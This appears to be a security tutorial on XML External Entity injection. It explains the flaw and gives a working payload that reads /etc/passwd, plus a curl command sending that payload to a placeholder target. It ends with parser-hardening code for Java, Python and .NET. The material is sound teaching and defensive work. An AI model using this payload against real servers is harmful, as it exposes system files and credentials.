 
# XML External Entity (XXE) Injection – Vulnerability and Exploitation

## 📖 What is XML?

**XML (eXtensible Markup Language)** is a markup language used to encode documents in a format that is both human-readable and machine-readable. It is commonly used in data exchange between systems, especially in web services (e.g., SOAP APIs).

A basic XML structure looks like this:

```xml
<?xml version="1.0"?>
<note>
  <to>User</to>
  <from>Server</from>
  <heading>Reminder</heading>
  <body>Hello from XML!</body>
</note>
```

- `<?xml version="1.0"?>` is the XML declaration.
- `<note>` is the root element.
- Elements like `<to>`, `<from>`, etc., are child nodes of the root.
- All elements must be properly closed and nested.

## ⚠️ What is XXE (XML External Entity) Injection?

**XXE (XML External Entity) Injection** is a vulnerability that allows an attacker to interfere with the way an XML parser processes input. If the parser is not securely configured, an attacker can:

- Access internal files (e.g., `/etc/passwd`)
- Access environment variables or config files
- Initiate requests to internal services (SSRF)
- Crash or DoS the server

## 🛠️ Vulnerable Behavior

When a web server accepts raw XML and does not **disable external entities**, it becomes vulnerable. Consider the server expects this XML:

```xml
<root>
  <ID>1</ID>
</root>
```

An attacker can modify it to:

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <ID>&xxe;</ID>
</root>
```

### What’s happening here?
- A **DOCTYPE declaration** is used to define an external entity `xxe`.
- The value of this entity is set to the contents of `/etc/passwd`.
- When the parser reads `&xxe;`, it inserts the content of the file in its place.

## 🧪 Exploitation Proof-of-Concept

1. Save the payload to a file called `xxe.xml`:

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <ID>&xxe;</ID>
</root>
```

2. Send it with curl to the vulnerable endpoint:

```bash
curl -X POST http://target-site.com/data   -H "Content-Type: application/xml"   --data-binary @xxe.xml
```

If the server is vulnerable, the response will include the contents of `/etc/passwd`.

## 🔥 Impact

- **Information Disclosure**: Read files like `/etc/passwd`, `.env`, `config.php`
- **Credential Leakage**: Tokens, usernames, passwords, API keys
- **Server-Side Request Forgery (SSRF)**
- **Denial of Service (DoS)**

## 🛡️ Mitigation & Prevention

### ✅ Safe XML Handling
Always disable external entity processing. Examples:

#### Java (SAX Parser)
```java
factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```

#### Python (lxml)
```python
etree.parse(file, parser=etree.XMLParser(resolve_entities=False))
```

#### .NET
```csharp
XmlReaderSettings settings = new XmlReaderSettings();
settings.DtdProcessing = DtdProcessing.Prohibit;
```

### ✅ Additional Recommendations
- Avoid using XML when possible (prefer JSON).
- Validate and sanitize all user input.
- Use secure libraries and up-to-date dependencies.

## 📚 References
- [OWASP XXE Guide](https://owasp.org/www-project-top-ten/2017/A4_2017-XML_External_Entities_(XXE).html)
- [CWE-611: Improper Restriction of XML External Entity Reference](https://cwe.mitre.org/data/definitions/611.html)

## ✅ Summary

> XML is powerful but potentially dangerous when external entities are enabled. XXE attacks exploit these configurations to leak data or perform internal actions. Always sanitize and securely parse XML input to prevent this vulnerability.
